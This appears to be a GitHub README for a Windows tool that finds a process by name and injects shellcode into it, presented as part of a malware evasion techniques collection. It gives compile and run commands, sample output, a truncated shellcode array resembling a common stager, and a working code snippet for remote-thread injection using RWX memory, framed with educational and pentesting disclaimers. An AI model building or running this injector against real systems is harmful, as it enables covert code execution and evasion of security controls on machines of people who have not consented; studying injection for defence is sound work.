 
# Process Scanner & Shellcode Injector


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&width=435&lines=This+is+the+application+of+the+technique;RemoteProcessScanner;It+Was+added+in;the+MalwareEvasionTechniques" alt="Typing SVG" /></a>

A powerful Windows tool that scans for a specific process by its name and injects shellcode into it. This tool is primarily designed for educational and malware analysis purposes, demonstrating how process injection works in Windows environments.

**Note**: This tool is intended for use in controlled environments, such as malware research, pentesting, or debugging. It should not be used for malicious purposes.

## Features

- Scans through all running processes on the system.
- Locates a target process by name.
- Injects shellcode into the target process if found.
- Provides feedback and logging throughout the injection process.

## Prerequisites

- **Operating System**: Windows (with administrator privileges)
- **Compiler**: MinGW or Visual Studio (MSVC)
- **Windows SDK**: Required for process enumeration and memory allocation APIs.
- **Knowledge**: Understanding of how process injection works and familiarity with shellcode.

## How It Works

The tool uses the `CreateToolhelp32Snapshot` Windows API to take a snapshot of all running processes. It compares each process name with the target name provided by the user. If a match is found, it opens the process, allocates memory, writes the provided shellcode, and finally creates a thread to execute the shellcode in the context of the target process.

### Injection Workflow:

1. **Process Scanning**: Scans all running processes and identifies the target based on the user-provided process name.
2. **Process Opening**: Opens the target process with `PROCESS_ALL_ACCESS` permissions.
3. **Memory Allocation**: Allocates executable memory inside the target process.
4. **Shellcode Injection**: Writes the shellcode into the allocated memory.
5. **Remote Thread Creation**: Creates a new thread in the target process to execute the shellcode.

## Usage

### Clone the repository:
```bash
git clone https://github.com/your-username/process-scanner-shellcode-injector.git
cd process-scanner-shellcode-injector
```

### Compile the Program:

Using MinGW (`gcc`):
```bash
gcc -o scanner_injector.exe scanner_injector.c -lkernel32 -luser32
```

Using Visual Studio:
- Open the solution in Visual Studio.
- Build the solution (Ctrl + Shift + B).

### Run the Program:
```bash
scanner_injector.exe <ProcessName>
```

Example:
```bash
scanner_injector.exe notepad.exe
```

**Output:**
```bash
Great! We found the process: notepad.exe with PID: 1234
Allocated 512-bytes with PAGE_EXECUTE_READWRITE permissions inside PID 1234
Wrote 512-bytes to process memory
We got a handle on the Thread with ID 5678
```

### Example Shellcode

The program contains example shellcode, defined as `R0m4InShell[]`, which could be modified based on your specific use case. Ensure that the shellcode you inject is appropriate for testing purposes.

```c
unsigned char R0m4InShell[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    // ... truncated for brevity
};
```

## Code Overview

The following snippet outlines the core part of the process scanning and shellcode injection:

```c
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
Proc.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hSnapshot, &Proc)) {
    do {
        if (wcscmp(Proc.szExeFile, target) == 0) {
            PID = Proc.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &Proc));
}
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(R0m4InShell), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, rBuffer, R0m4InShell, sizeof(R0m4InShell), NULL);
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, &TID);
```

## Disclaimer

This tool is for educational purposes only. Misuse of this tool can result in criminal charges. The developer is not responsible for any damage caused by the misuse of this tool. Always have permission to test and inject into processes, especially in production environments.
